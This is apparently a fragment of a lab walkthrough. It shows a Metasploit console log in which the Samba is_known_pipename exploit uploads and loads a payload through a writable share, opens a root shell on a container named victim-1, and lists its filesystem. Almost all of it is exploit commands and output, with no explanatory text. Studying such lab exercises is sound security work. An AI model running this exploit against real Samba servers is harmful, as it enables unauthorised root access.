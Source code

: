 ```

   Id  Name
   --  ----
   0   Automatic (Interact)


msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.123.118.3:445 - Using location \\192.123.118.3\exploitable\tmp for the path
[*] 192.123.118.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.123.118.3:445 - Share 'exploitable' has server-side path '/
[*] 192.123.118.3:445 - Uploaded payload to \\192.123.118.3\exploitable\tmp\aaRuqPMQ.so
[*] 192.123.118.3:445 - Loading the payload from server-side path /tmp/aaRuqPMQ.so using \\PIPE\/tmp/aaRuqPMQ.so...
[-] 192.123.118.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.123.118.3:445 - Loading the payload from server-side path /tmp/aaRuqPMQ.so using /tmp/aaRuqPMQ.so...
[+] 192.123.118.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.123.118.2:38583 -> 192.123.118.3:445) at 2023-07-23 02:51:58 +0000
```

```
/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/tmp# cd ~
cd ~
root@victim-1:/root# ls
ls
start.sh
root@victim-1:/root# cd /
cd /
root@victim-1:/# ls -al
ls -al
total 19164
drwxr-xr-x   1 root   root        4096 Jul 23 02:47 .
drwxr-xr-x   1 root   root        4096 Jul 23 02:47 ..
-rwxr-xr-x   1 root   root           0 Jul 23 02:47 .dockerenv
drwxr-xr-x   1 root   root        4096 Oct  8  2018 bin
drwxr-xr-x   2 root   root        4096 Jun 14  2018 boot
drwxr-xr-x   5 root   root         340 Jul 23 02:47 dev
drwxr-xr-x   1 root   root        4096 Jul 23 02:47 etc
drwxr-xr-x   1 root   root        4096 Oct  8  2018 home
drwxr-xr-x   1 root   root        4096 Oct  8  2018 lib
drwxr-xr-x   2 root   root        4096 Aug 31  2018 lib64
drwxr-xr-x   2 root   root        4096 Aug 31  2018 media
drwxr-xr-x   2 root   root        4096 Aug 31  2018 mnt
drwxr-xr-x   2 root   root        4096 Aug 31  2018 opt
dr-xr-xr-x 643 nobody nogroup        0 Jul 23 02:47 proc
drwx------   1 root   root        4096 Oct  8  2018 root
drwxr-xr-x   1 root   root        4096 Jul 23 02:47 run
drwxr-xr-x   1 root   root        4096 Oct  8  2018 samba-4.1.17
-rw-r--r--   1 root   root    19536407 Feb 23  2015 samba-4.1.17.tar.gz
drwxr-xr-x   1 root   root        4096 Oct  8  2018 sbin
drwxr-xr-x   2 root   root        4096 Aug 31  2018 srv
dr-xr-xr-x  13 nobody nogroup        0 Jul 23 02:47 sys
drwxrwxrwt   1 root   root        4096 Jul 23 02:51 tmp
drwxr-xr-x   1 root   root        4096 Aug 31  2018 usr
drwxr-xr-x   1 root   root        4096 Aug 31  2018 var
root@victim-1:/# cd /tmp
cd /tmp
root@victim-1:/tmp# ls
```